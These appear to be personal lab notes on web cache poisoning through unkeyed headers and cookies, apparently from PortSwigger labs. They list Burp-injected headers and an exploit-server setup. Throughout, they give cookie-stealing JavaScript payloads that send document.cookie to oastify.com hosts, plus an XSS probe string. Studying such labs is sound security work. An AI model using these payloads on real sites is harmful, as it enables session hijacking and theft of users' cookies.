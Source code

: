___

Watch for `/resources/js/tracking.js` file and `X-Cache: hit` header in response.
If you got only tracking.js without X-Cache - no cache poisoning here.

![[Pasted image 20240808103007.png]]

If you got both file and header, the first thing you should try is to inject your exploit server into **Host:** or **X-Forwarded-Host:** headers and check them in response

![[Pasted image 20240808103015.png]]

You got the poisoned cache with X-Forwarded-Host? Cool, now go to your exploit server, set the File name /resources/js/tracking.js and in Body section paste the next payload: `document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')`. Poison web cache with your server and wait for victim's cookies.

```js
document.location='https://OASTIFY.COM/?cookies='+document.cookie;
```

# Web cache poisoning with an unkeyed header

The application supports the use of a custom HTTP header to override the Host header, and uses a cache that can be manipulated into saving responses that have been influenced by this header.  
  
Burp added the following headers to the request:  
  
X-Forwarded-Host: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com  
X-Host: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com  
X-Forwarded-Server: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com


![[Pasted image 20240808105803.png]]

## Cookie steal

X-Forwarded-Host: exploit-0ab30085047ba7ec862a98ec018d0091.exploit-server.net

Exploit server: 
	File: /resources/js/tracking.js
	Body: document.location='http://00ytfwduj1605olk3s3bahg31u7mvb.oastify.com/?cookies='+document.cookie;

![[Pasted image 20240808112148.png]]


# Web cache poisoning with an unkeyed cookie

![[Pasted image 20240808152709.png]]

```js
test"-alert(1)-"test
```

![[Pasted image 20240808152936.png]]

